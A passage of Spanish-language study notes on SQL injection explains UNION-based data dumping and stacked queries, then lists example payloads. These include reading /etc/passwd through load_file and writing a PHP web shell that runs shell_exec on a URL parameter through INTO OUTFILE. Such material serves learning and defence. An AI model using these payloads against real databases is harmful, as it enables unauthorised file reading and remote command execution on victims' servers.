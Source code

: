 ```sql
--+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+-------------------------------+

```

Como podemos ver, en este ejemplo desde la consola, estariamos uniendo junto a una respuesta true, los datos que a nosotros nos interesarian dumpear de una base de datos en especifico, para esto es importante primero haber obtenido todas las columnas para una determinada tabla de una determinada base de dato como se explico anteriormente.

-----

- # Inyección SQL basada en stacked queries:
Este tipo de **SQLI** aprovecha la pobilidad de **ejecutar múltiples consultas** en una sola sentencia para obtener información adicional. Por ejempllo, se puede utilizar una consulta que inserta un registro en una tabla y luego agrega una consulta adicional que devuelve información sobre la tabla.


---
# Injecciones interesantes 

## Listar Base de datos en uso
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT database() 
```
## Listar version de MySQL
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT @@version
```
## Intentar leer un archivo del sistema 
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT load_file('etc/passwd')
```
## Intentar ingresar un archivo en una ruta del sistema
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT '<?php echo "<pre>" . shell_exec($_GET[\'cmd\']) . "</pre>"; ?>' INTO outfile '/tmp/file.php'
```

---
# Base de datos: 

Es importante hacer una breve distinción entre los diferentes tipo de base de datos.

- ## Bases de datos relacionales
Las inyescciones [[SQL]] son más comunes en bases de datos relacionales como **MySQL**, **SQL Server**, **Oracle**, **PostgreSQL**, entre otros. En estas base de datos, se utilizan consultas SQL para acceder a los datos y realizar operaciones en la base de datos.
